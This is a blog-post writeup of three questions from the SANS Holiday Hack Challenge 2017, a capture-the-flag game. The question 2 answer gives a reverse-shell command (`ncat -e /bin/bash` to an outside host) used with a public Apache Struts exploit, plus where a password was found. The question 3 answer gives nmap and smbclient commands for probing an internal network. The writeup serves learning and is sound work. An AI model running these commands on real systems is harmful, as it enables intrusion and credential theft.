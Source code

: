 ```yaml
---
layout: post
title: "SANS Holiday Hack Challange 2017: Writeup"
date: 2018-01-11 19:30
type: post
published: true
comments: true
categories: ctf
---
```


SANS hosted their yearly [Holiday Hack Challenge](https://holidayhackchallenge.com) this year as well.
It was a fun event, even though I think the story/non-hacking part was better last year.
Here is my writeup of the challenges. It's not the most thorough writeup I've done but it outlines my process of solving them.

## Questions

> 1. Visit the North Pole and Beyond at the Winter Wonder Landing Level to collect the first page of The Great Book using a giant snowball. What is the title of that page?

Play the snowball game to get the page.

**Answer:** The title of the page is "About this Book..."


> 2. Investigate the Letters to Santa application at https://l2s.northpolechristmastown.com. What is the topic of The Great Book page available in the web root of the server? What is Alabaster Snowball's password?

Look at the source code to find the link to the development site. Look at the bottom to see that it uses Apache Struts.
It's also hinted that it can be exploited through the reference to Equifax. Searching "https://www.exploit-db.com/", we find a number of explits.
Trying out a few, we find that ID 42627 works. Using it with the command `ncat -e /bin/bash mydomain.com 5000` gives us a reverse shell.
Looking at the default webroot /var/www/html we find page 2 of the great book which can be accessed through "https://l2s.northpolechristmastown.com/GreatBookPage2.pdf".
Looking in the Apache Tomcat directory we can find Alabaster Snowball's password in "/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class"

**Answer A:** The title of the page is "On the Topic of Flying Animals"  
**Answer B:** Alabaster Snowball's password is "stream_unhappy_buy_loss"  

> 3. The North Pole engineering team uses a Windows SMB server for sharing documentation and correspondence. Using your access to the Letters to Santa server, identify and enumerate the SMB file-sharing server. What is the file server share name?

Using the password we can SSH into the server and run an nmap scan for SMB through `nmap -p137-139,445 -Pn 10.142.0.0/24`
We find a suitable server at "10.142.0.7", enumerate and browser it with `smbclient -L localhost -U 'alabaster_snowball'` and `smbclient //localhost/FileStor -U alabaster_snowball stream_unhappy_buy_loss` respectively.
The files can then be downloaded.
